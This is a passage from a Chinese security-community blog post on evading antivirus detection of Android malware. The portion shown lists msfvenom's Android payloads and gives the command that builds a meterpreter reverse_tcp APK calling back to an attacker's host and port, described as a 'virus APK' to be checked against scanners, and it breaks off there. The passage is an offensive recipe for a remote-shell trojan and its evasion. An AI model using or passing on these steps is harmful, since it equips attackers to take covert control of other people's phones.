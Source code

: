

# Android 免杀小结 - 先知社区

Android 免杀小结



> 免杀练习两年半

VT 检测 [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload)

## msfvenom 自动生成

查看一下 msfvenom 里面的 android 木马

```plain
msfvenom -l payloads | grep android
```

[![](assets/1701606948-12cf62e93aab9a54b41ed0c774260914.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009101930-472617e4-664a-1.png)

  
使用 android/meterpreter/reverse\_tcp

```plain
msfvenom -p android/meterpreter/reverse_tcp LHOST=ip LPORT=10008 R > black.apk
```

[![](assets/1701606948-7ec0e4b20146ffc0ccd882e603adac00.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102010-5f37bcc0-664a-1.png)  
  
直接使用 msfvenom 生成的病毒 APK，丢到 VirScan 里面  
  